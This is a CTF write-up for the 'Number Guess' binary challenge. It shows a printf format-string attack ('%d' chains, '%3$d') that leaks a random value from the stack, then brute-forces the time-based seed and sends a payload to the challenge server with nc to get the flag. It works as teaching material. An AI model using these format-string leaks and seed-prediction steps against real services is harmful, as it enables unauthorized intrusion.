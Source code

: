 # Number Guess
binary - 70 points

## Challenge 
Ian loves playing number guessing games, so he went ahead and [wrote one himself](guessPublic64)([source](guessPublic.c)). I hope it doesn't have any vulns. The service is running at `nc shell.angstromctf.com 1235`.

## Hint
Look up some vulnerabilities associated with the printf function.

## Solution

Format string attack

(I created modded.c to print out the rand values)

	# echo '%d %d %d %d %d %d %d %d %d %d %d %d %d %d' | ./modded 
	Welcome to the number guessing game!
	Before we begin, please enter your name (40 chars max): 
	I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
	457774668 1041 820441 -1290305372 -1290305248 457774984 0 1891806096 1891805296 457774976 820441 1891806096 -1293946191's guess: Sorry, the answer was 1712334 (891893 + 820441). Try again :(

Hence we can get rand2 using format string: `%3$d`.

But we realise we can only get `rand2` and not `rand1`.

---

Apparently the server is not running on the current time of my PC hence we can't just generate 2 random numbers on our own PC and feed it into the server.

With this, in `payload.c` I first made an OFFSET of 0 and feed in the payload to get the rand2 along with my current seed on my PC (using `printf("%%3$d Seed of %d\n", seed)` as payload).

	# gcc payload.c -o payload
	# ./payload  |  nc shell.angstromctf.com 1235
	Welcome to the number guessing game!
	Before we begin, please enter your name (40 chars max): 
	I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
	947848 Seed of 1521353782's guess: Sorry, the answer was 1297319. Try again :(

Hence, `rand1 = 1297319 - 947848`.

Insert this as the `FIND_VALUE` into `bruteforce_seed.c`

---

	$ ./bruteforce_seed 
	Seed: 1521353773
	Solved!
	Result: 1521353773

Now get got the seed, we can find the difference between our current time and the server time.

Compare to our initial to get an time offset value of `(1521353782 - 1521353773)`.

---

Adjust OFFSET inside `payload.c` and feed the output into the server!

	 # gcc payload.c -o payload
	 # ./payload  |  nc shell.angstromctf.com 1235
	Welcome to the number guessing game!
	Before we begin, please enter your name (40 chars max): 
	I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
	244398 Seed of 1521353842's guess: 
	Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}

## Flag

	actf{format_stringz_are_pre77y_sc4ry}
